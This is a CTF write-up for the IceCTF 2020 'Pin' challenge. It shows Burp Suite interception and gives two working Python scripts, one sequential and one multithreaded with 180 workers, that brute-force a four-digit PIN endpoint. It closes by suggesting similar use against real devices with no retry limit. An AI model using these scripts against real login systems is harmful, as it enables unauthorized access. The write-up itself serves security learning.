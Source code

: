 ```yaml
---
layout: post
title: IceCTF 2020 - Multithreading Requests 
---
```


IceCTF took place over the weekend and had a range of fun challenges. This writeup will be focussing on the miscellaneous category and the 'Pin' challenge, which involved looking at requests in Burp and multithreading them using Python to brute-force a four digit passcode in a short period of time.

# The Challenge
**Name:** Pin

**Category:** Miscellaneous 


**Points:** 100


**Requirements:** Python, [Burp](https://portswigger.net/burp/communitydownload).


>You are late again, and just can’t remember the PIN code to the locker that has the secret Novichok stuff you need for work. What do you do?

# Initial Analysis
The link in the challenge description takes us to a lockscreen which resembles an iOS one. Immediately I tried entering a bunch of random passcodes such as 1234, 1337 ect. to see if anything in the URL would change (or maybe even luck out and get it through guessing) but as expected, I didn't learn much. I decided to fire up Burp, a tool which allows one to peek at requests and modify them, which gave me a better understanding of what was going on behind the scenes. 

![image](https://i.imgur.com/BZ21cjc.png)

I navigated to the 'Proxy' tab and selected 'Open Browser'. This opens up Chromium which Burp can directly interface with. 'Intercept is on' should be selected by default, which will allow us to stop and modify any requests before they're sent. 

Now that we've got everything we need, we can paste the link into the browser and see what Burp tells us. 

![image](https://i.imgur.com/VcQBa38.png)

First off, since we're only navigating to the home page there's nothing we didn't already know in this request. What we're actually interested in is what happens when we enter in a passcode, so let's try that.

![image](https://i.imgur.com/z3o7mXy.png)

This looks more promising...we can see a GET request to another URL (www.misc-pin.vuln.icec.tf/login/1337) which contains the passcode we just entered. This is great news, as it means we can brute-force it through spamming requests with all 10,000 possible combinations. It'd also be good to see how the website responds to a wrong passcode - we can use Burp's 'Repeater' tool for this. Simply right click the request and select the 'Send to Repeater' option.

![image](https://i.imgur.com/Ym30oug.png)

Navigate to the 'Repeater' tab and click 'Send':

![image](https://i.imgur.com/I0HzeB0.png)

We get some JSON data returned, which is perfect, as it means we can check the response from the website to see if the ``correct`` field is set to true or false when we automate it. 

# Bruteforcing Requests 
We now know that the passcode is being sent to /login/ via a GET request, so all we need to do is write a script that can try every combination. This is where the Python [requests](https://pypi.org/project/requests/) module comes in handy. The following script mimics someone entering in all possible passcodes and analyses the response from the website: 

```python
import requests
  
for pin in range(9999):
    # allows us to try '0001' instead of just '1' as a passcode
    pin = '{0:04}'.format(pin)
    print('Trying: ' + pin)

    # creates a new URL each time with a new passcode to try
    URL = "http://www.misc-pin.vuln.icec.tf/login/" + str(pin)

    # performs a GET request and stores the response in r
    r = requests.get(url = URL)
    temp = str(r.content)
    print(temp)

    # checks if the 'correct' field is set to true
    if 'true' in temp:
        print('FOUND!' + '\nPASSWORD: ' + pin)
        quit()
```

The above is a relatively easy solution that gets the job done...but it's really slow. I left it running, looked at some other challenges and eventually got a match for ``1729`` after 15 minutes. The flag was ``IceCTF{t1mIng_r3al1y_is_everyth1ng_isNt_it}``, which I thought was quite fitting. 

![image](https://i.imgur.com/NalDvt5.png)

Now, it would've been okay to stop here as the challenge was solved and I had the flag, but I knew that there was a much faster way to do this so I looked into multithreading and came across [ThreadPoolExecutor](https://www.tutorialspoint.com/concurrency_in_python/concurrency_in_python_pool_of_threads.htm). Through rewriting the script, I came up with the following: 

```python
from concurrent.futures.thread import ThreadPoolExecutor
from requests import Session, Response
from requests.adapters import HTTPAdapter
from functools import partial
from multiprocessing import Pool
import tqdm
import os

def execute(urls, method, size):
    i = 0
    # creates a new session 
    session = Session()
    session.mount('http://', HTTPAdapter(pool_maxsize = size))

    # creates a worker that calls make_request
    worker = partial(method, session)

    # executes make_request asynchronously with 180 workers
    with ThreadPoolExecutor(size) as pool:

        # creates a progress bar and allows us to check responses 
        for req in tqdm.tqdm(pool.map(worker, urls), total = len(urls)):
            temp = str(req.content)
            if "true" in temp:
                print("\n\nFOUND! Password is: " + str(i))
                print(str(req.content) + "\n")
                quit()
            i+=1
    session.close()

# method we want to multithread
def make_request(session, url):
    return session.get(url)

# generates a list of all 10000 URLs
urls = [("http://www.misc-pin.vuln.icec.tf/login/" + "{0:04}".format(num)) for num in range(9999)]

# kick starts the program with 180 workers
execute(urls, make_request, 180)
```

This cracked the passcode in under 10 seconds (compared to 15 minutes before) and works by doing the previous solution, but much faster through calling ``make_request`` 180 times, rather than just once per iteration of the URL list. The optimised script gets through 1729 requests before the previous one can even do 15. 

The reason I selected ``180`` for the amount of workers is because I found it was a sweet spot in terms of speed for my computer as it started to slow down with anything higher - although I'm sure this will greatly vary depending on a device's CPU. I also added a progress bar using [tqdm](https://github.com/tqdm/tqdm). Here's a time comparison between the two (multithreaded version on the right):

![image](https://i.imgur.com/uDPJldv.gif)

and that's it! Bit of a shorter writeup, but I thought I'd share my solution which I think will come in handy for future challenges. I'm sure there are many other applications of this too (such as cracking passcodes of real devices which use digit combinations and have no retry limit), so that's something I'll be looking into a little more...ethically of course.

# What did I learn?

1) Multithreading in Python. 


2) Multithreading and brute-forcing go hand in hand. 


3) Shorter solutions aren't always better. 
